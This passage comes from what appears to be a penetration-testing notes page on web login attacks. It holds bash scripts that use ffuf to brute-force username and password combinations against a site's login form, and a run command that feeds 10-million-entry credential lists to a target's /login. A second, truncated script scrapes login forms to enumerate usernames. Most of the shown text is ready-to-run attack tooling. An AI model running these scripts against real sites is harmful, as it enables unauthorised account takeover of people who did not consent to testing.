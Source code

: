 ```bash
         -X GET \
         -ac -c -r \
         -mc 200 \
         -fr "invalid username|invalid password|login failed|authentication failed|unauthorized|access denied| نام کاربری یا رمز عبور معتبر نیست" \
         "${HEADERS[@]}"
else
    ffuf -u "$FULL_ACTION" \
         -w "$USERLIST:FUZZ1" \
         -w "$PASSLIST:FUZZ2" \
         -X POST \
         -d "$DATA" \
         -ac -c -r \
         -mc 200 \
         -fr "invalid username|invalid password|login failed|authentication failed|unauthorized|access denied| نام کاربری یا رمز عبور معتبر نیست" \
         "${HEADERS[@]}"
fi
```

{% hint style="info" %}
Run Script
{% endhint %}

```bash
sudo chmod +x em-user-enum.sh;sudo ./em-user-enum.sh $WEBSITE/login \
/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt \
/usr/share/seclists/Passwords/xato-net-10-million-passwords-1000000.txt
```

### **Nonexistent Username**

#### [FFUF](https://github.com/ffuf/ffuf)

{% hint style="info" %}
Create Script
{% endhint %}

```bash
sudo nano nu-user-enum.sh
```

```bash
#!/bin/bash

# Check if URL is provided
if [ $# -eq 0 ]; then
    echo "Usage: $0 <domain.com/login> <userlist.txt>"
    exit 1
fi

URL="$1"
USERLIST="$2"

# Fetch login page HTML
HTML=$(curl -s "$URL")

# Extract the first form block (up to </form>)
FORM=$(echo "$HTML" | sed -n '/<form/,/<\/form>/p' | head -n 50)

# Extract form action attribute (default to "/")
ACTION=$(echo "$FORM" | grep -oEi 'action="[^"]*"' | head -1 | cut -d'"' -f2)
if [ -z "$ACTION" ]; then
    ACTION="/"
fi

```